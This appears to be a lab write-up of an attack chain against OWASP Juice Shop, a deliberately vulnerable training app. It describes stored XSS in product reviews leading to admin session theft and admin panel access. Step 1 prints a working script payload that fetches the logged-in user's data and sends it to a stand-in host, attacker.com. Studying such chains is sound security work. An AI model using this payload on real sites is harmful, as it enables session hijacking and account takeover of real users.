

# Juice Shop - XSS to Admin Account Takeover

**Severity:** Critical  

**Impact:** Critical  

**Discovered:** 2025-12-30  


## Description

Stored XSS in product review leads to session hijacking and admin access


## Context

OWASP Juice Shop e-commerce application


## Prerequisites

- Valid user account
- Ability to post product reviews


## Attack Chain Steps

### Step 1: Cross-Site Scripting

**Description:** Stored XSS in product review comment field

**Endpoint:** `/rest/products/{id}/reviews`

**Payload:**
```
<script>fetch('/rest/user/whoami', {credentials: 'include'}).then(r=>r.json()).then(d=>fetch('https://attacker.com/steal?token='+btoa(JSON.stringify(d))))</script>
```

**Outcome:** XSS payload stored in product review


### Step 2: Session Hijacking

**Description:** Admin views product review, XSS executes in admin context, session token stolen

**Endpoint:** `/#/search?q=...`

**Prerequisites:**

- XSS payload stored in product review

**Outcome:** Admin session token obtained by attacker


### Step 3: Privilege Escalation

**Description:** Use stolen admin session token to access admin panel

**Endpoint:** `/#/administration`

**Prerequisites:**

- Admin session token obtained by attacker

**Outcome:** Full admin access to Juice Shop


## Chain Visualization




## Tags

`juice-shop` 
`privilege-escalation` 
`session-hijacking` 
`web` 
`xss` 
